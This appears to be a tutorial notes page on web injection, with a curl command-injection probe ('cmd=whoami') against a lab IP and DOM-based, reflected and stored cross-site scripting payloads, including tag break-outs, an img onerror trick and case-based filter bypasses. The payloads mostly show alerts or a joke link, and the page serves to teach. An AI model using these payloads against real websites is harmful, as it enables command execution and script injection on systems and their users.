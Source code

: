 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Injection

Occurs when we find a way of sending html, css, js code, database petitions and others, via a petition or URL of a website.

## <mark style="color:blue;">**Example**</mark>

* Manage a petition using system()

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
#We send a petition with cmd=$command, this will let us now if we can have access to a terminal of the machine
curl -X POST http://192.168.20.40:8000/?msg -d "cmd=whoami"
```
{% endcode %}

***



## <mark style="color:purple;">Cross-site Scripting</mark>

&#x20;XSS scripting allows execution of javascript maliciuos code

### DOM-based

Mutate html document of a page

* Example

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">#We select language in a slider and is reflected on url
http://url?language=en

#Check html of page
&#x3C;select name="default">
<strong>  &#x3C;script>
</strong><strong>  ...
</strong>    document.write("&#x3C;option value='"+lang+"'>"+decodeURI(lang) + "&#x3C;/option>");
  ...
  &#x3C;/script>
&#x3C;/select>

#Use ' to close "value" parameter and then close tags
http://url?language='>&#x3C;/option>&#x3C;/select>

'#Then create whatever tag
http://url?language='>&#x3C;/option>&#x3C;/select>&#x3C;h1>HACKED&#x3C;/h1>

'#Even js code
http://url?language='>&#x3C;/option>&#x3C;/select>&#x3C;script>if(window.confirm('HACKED\nTry TO CALL FOR HELP?')){window.open('https://www.youtube.com/watch?v=dQw4w9WgXcQ');};&#x3C;/script>
</code></pre>

***

* When it is script tag filtering

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Use image tag,putting a bad source cause a error, we handle it with 'onerror' parameter that let us insert JS Code
http://url?language='></option></select><img src=x onerror='alert("HACKED")'/>
```
{% endcode %}

***

### Reflected:&#x20;

When URL or form parameters are displayed on screen of the page

* A parameter sent in the query of the url is shown in screen

<pre class="language-bash" data-overflow="wrap" data-line-numbers data-full-width="false"><code class="lang-bash"># We made a get to http://192.168.20.40:8000/?msg=Hello
# The site Return "Hello" in any part of the html
#Then we could do something like this to inject code
<strong>curl http://192.168.20.40:8000/?msg=&#x3C;script>$payload&#x3C;/script>
</strong></code></pre>

***

* A parameter sent in the query of the url is shown in screen

<pre class="language-bash" data-overflow="wrap" data-line-numbers data-full-width="false"><code class="lang-bash"># We insert Hello in a formulary
# The site Return "Hello" in any part of the html
#Then we could fill the form to inject code
<strong>&#x3C;script>$payload&#x3C;/script>
</strong><strong>
</strong><strong>#Something tag filter can be by pass by using capital letters
</strong>&#x3C;SCRIPT>$payload&#x3C;/SCRIPT>

#Or using img tag
&#x3C;img src=x onerror='alert("HACKED")'/>
</code></pre>

***

### Stored:

The input of values is saved by the web and display to anyone who browse to the site. Maliciuos code in the same way will remain globally in the web site.

* A formulary show a list of entries

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
#We insert name and comment in the formulary
#Every time an insertion is done the website update a list with the entries that is displayed to every user
#Then we could fill the form to inject code
<a href="https://www.youtube.com/watch?v=dQw4w9WgXcQ">CLICK HERE TO WIN A PRIZE</a>
```
{% endcode %}

***

